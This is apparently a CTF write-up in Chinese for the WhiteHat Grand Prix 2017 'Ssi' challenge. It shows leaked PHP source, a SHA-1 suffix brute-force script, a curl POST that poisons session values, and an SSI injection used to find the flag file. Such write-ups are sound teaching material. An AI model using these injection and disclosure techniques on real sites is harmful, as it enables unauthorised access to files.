


# WhiteHat Grand Prix 2017 - Notes

## Ssi

打開網站


點 change color 沒啥變化，網址是 http://ssi.grandprix.whitehatvn.com/index.php

改成 http://ssi.grandprix.whitehatvn.com/index.php~ 可以看到 source code

```php
<?php 
    session_start();
    if(isset($_POST['textColor'])){
        foreach($_REQUEST as $key => $val) { 
            $_SESSION[$key] = $val; 
        }
    }
    if(array_key_exists("textColor", $_SESSION)){
        $style ="color:".$_SESSION['textColor'].";";
    }
    // 
    if(array_key_exists('secret', $_SESSION) and array_key_exists('textColor', $_SESSION)){
        sleep(1);
        $temp = $_SESSION['secret'].$_SESSION['textColor'];
        if(substr(sha1($temp),-3) ==='ab1'){
            //Do sth admin permission
        }
        else{
            $status ="You are logged in as a regular user.";
        }
        
    }
    else{
        $status ="You are logged in as a regular user.";
    }
    
    $title = "<h1 style='$style'>WhiteHat Grand Prix 2017</h1>"; 
?>
```

從 code 可以看到我們要傳一個參數 secret ，其 sha1 後的最後三位是 ab1 

寫個 python 跑一下

```python
import hashlib

for i in range(5000):
	if hashlib.sha1(str(i)).hexdigest()[-3:] == 'ab1':
		print i
		break
```

我得到 1868

我用 curl 去post
```
$ curl -d "secret=18&textColor=68" "http://ssi.grandprix.whitehatvn.com/index.php"
<!DOCTYPE html>
<html>
<head>
        <title>WH-Grandprix2017</title>
        <style type="text/css">
                body{
                        background-color: #f0f0f0;
                }
                .main{
                        padding-left: 500px;
                        padding-top: 50px;
                }
                .form{
                        margin-left: 65px;
                }

                .status{
                        margin-top: 10px;
                        margin-left: 70px;
                }

        </style>
</head>
<body>
<script>alert('Good boy!.Continued to get the flag.')</script><div class="main">
        <div><h1 style='color:68;'>WhiteHat Grand Prix 2017</h1></div>
        <div class="form">
                <form action="index.php" method="POST">
                        <input name="textColor" placeholder="New color">
                        <input type="submit" name="submit" value="Change">
                </form>
        </div>
        <div class="status"></div>


</div>
</body>
</html>

```

改用 hackbar 可以看到換了一個頁面



用 F12 看 console 會看到
```
Debug Objects: Flag at directory: value_special/flag.txt
showip.php:1:1
Debug Objects: value_special = md5(filesize(index.php)-namechannelIRC)
showip.php:1:1
Debug Objects: - is a character
showip.php:1:1
```

隨便輸入按確定會看到新頁面




可以看到網址是 shtml ，然後剛好題目是 ssi ，而剛剛上面的 console 訊息顯示我們必須知道 index.php 大小

把剛剛的輸入改成 ```<!--#fsize file="index.php"-->```

這樣會得到 1.6K

那根據上面的 LOG 訊息，等於是要 md5(1.6K-#whitehatgrandprix2017) = 36789f5cc2688fb98476eea77c6696fe


然後再根據上面的 console 訊息，在網址打 http://ssi.grandprix.whitehatvn.com/36789f5cc2688fb98476eea77c6696fe/flag.txt

就可以得到 flag


